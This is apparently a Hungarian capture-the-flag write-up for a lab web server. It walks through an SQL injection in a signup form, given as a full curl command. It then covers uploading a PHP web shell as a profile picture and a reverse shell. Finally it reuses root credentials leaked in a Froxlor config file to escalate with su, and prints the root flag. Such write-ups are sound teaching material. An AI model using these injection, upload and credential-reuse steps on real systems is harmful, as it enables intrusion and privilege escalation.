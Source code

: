 # Tsai local

10.10.(1-9).12:8080 Ugye tudod mit kell tenned?

Ehhez a feladathoz nem kell writeup!

## Megoldás
A megadott címen egy weboldalt találunk. Megpróbálhatunk magunknak felhasználót regisztrálni, de az adataink nem fognak stimmelni. Hacsak át nem verjük az űrlapot
egy kis SQL varázslattal:

```
firstname: a
lastname: a' or ''='
department_id: 4
username: wwwww
password: wwwww
cpassword: wwwww
```

A teljes parancs valami ilyesmi lesz:

```
curl 'http://10.10.1.12:8080/teacher_signup.php' \
  --data-raw $'firstname=a&lastname=a\'+or+\'\'%3D\'&department_id=4&username=wwwww&password=wwwww&cpassword=wwwww'
```

Remek, most már be tudunk lépni `wwwww:wwwww`-vel. A profil oldalunkon feltölthetünk
profil képet. Ehelyett természetesen rögtön egy php shell-el próbálkozunk, amit el
is fogad, a shell.php elérhető lesz itt:

```
curl http://10.10.1.12:8080/admin/uploads/shell.php
```

A reverse shellbe belépve kicsit körülnézünk a gépen `find / -name '*flag*' 2>/dev/null` és meg is van az első flag.

## Root

A tmp-ben van egy érdekes fájl.

```
$ cat /tmp/fxKScHMZ
<?php
// automatically generated userdata.inc.php for Froxlor
$sql['host']='127.0.0.1';
$sql['user']='froxlor';
$sql['password']='ro07p@55!';
$sql['db']='froxlor';
$sql['ssl']['caFile']='';
$sql['ssl']['verifyServerCertificate']='0';
$sql_root[0]['caption']='Default';
$sql_root[0]['host']='127.0.0.1';
$sql_root[0]['user']='root';
$sql_root[0]['password']='ro07p@55!';
$sql_root[0]['ssl']['caFile']='';
$sql_root[0]['ssl']['verifyServerCertificate']='0';
// enable debugging to browser in case of SQL errors
$sql['debug'] = false;
?>
```

Ezt megpróbálhatjuk jelszónak használni:
```
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su root
su root
Password: ro07p@55!
```

Siker
```
cd /root
root@24d7dcf3a96e:~# ls
ls
abook.zip  froxlor.tar.gz                   phpabook v0.9  salonerp-3.0.1.zip
dump.sql   nia_munoz_monitoring_system.zip  root_flag.txt
root@24d7dcf3a96e:~# cat root_flag.txt
```
Meg is van:
```
{HCSC}T5@!:[R0otFl4G!]
```